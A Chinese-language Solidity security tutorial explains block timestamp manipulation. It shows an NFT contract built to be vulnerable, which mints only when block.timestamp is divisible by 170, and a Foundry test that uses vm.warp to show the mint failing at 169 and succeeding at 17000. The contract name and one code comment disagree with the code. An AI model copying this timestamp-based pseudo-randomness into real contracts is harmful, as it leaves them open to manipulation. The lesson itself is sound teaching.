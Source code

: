 ```yaml
---
title: S14. 操纵区块时间
tags:
- solidity
- security
- timestamp
---
```


# WTF Solidity 合约安全: S14. 操纵区块时间

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.wtf.academy)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍智能合约的操纵区块时间攻击。在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。

## 区块时间

区块时间（block timestamp）是包含在以太坊区块头中的一个 `uint64` 值，代表此区块创建的 UTC 时间戳（单位：秒），在合并（The Merge）之前，以太坊会根据算力调整区块难度，因此出块时间不定，平均 14.5s 出一个区块，矿工可以操纵区块时间；合并之后，改为固定 12s 一个区块，验证节点不能操纵区块时间。

在 Solidity 中，开发者可以通过全局变量 `block.timestamp` 获取当前区块的时间戳，类型为 `uint256`。

## 漏洞例子

此例子由[WTF Solidity合约安全: S07. 坏随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/32_Faucet)中的合约改写而成。我们改变了 `mint()` 铸造函数的条件：当区块时间能被 170 整除时才能成功铸造：

```solidity
contract TimeMnipulation is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当区块时间能被7整除时才能mint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Foundry复现攻击

攻击者只需操纵区块时间，将它设为能被 170 整除的数字，就可以成功铸造 NFT。我们选择 Foundry 来复现这个攻击，因为它提供了修改区块时间的作弊码（cheatcodes）。如果你不了解 Foundry/作弊码，可以阅读 [Foundry教程](https://github.com/AmazingAng/WTFSolidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md) 和 [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes)。

代码大致逻辑

1. 创建一个 `TimeManipulation` 合约变量 `nft`。
2. 创建一个钱包地址 `alice`。
3. 使用作弊码 `vm.warp()` 将区块时间改为 169，由于不能被170整除，铸造失败。
4. 使用作弊码 `vm.warp()` 将区块时间改为 17000，由于可以被170整除，铸造成功。

代码：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Computes address for a given private key
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condition 1: block.timestamp % 170 != 0");
        // Set block.timestamp to 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Sets all subsequent calls' msg.sender to be the input address
        // until `stopPrank` is called
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // Set block.timestamp to 17000
        console.log("Condition 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

使用Foundry启动测试用例：

```shell
forge test -vv --match-test testMint
```

输出如下：

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condition 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  Condition 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

我们可以看到，当我们将` block.timestamp` 修改为 17000时，铸造成功。

## 总结

这一讲，我们介绍了智能合约的操纵区块时间攻击。在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。合并之后，以太坊改为固定 12s 一个区块，并且验证节点不能操纵区块时间。因此这类攻击不会在以太坊上发生，但仍可能在其他公链中遇到。
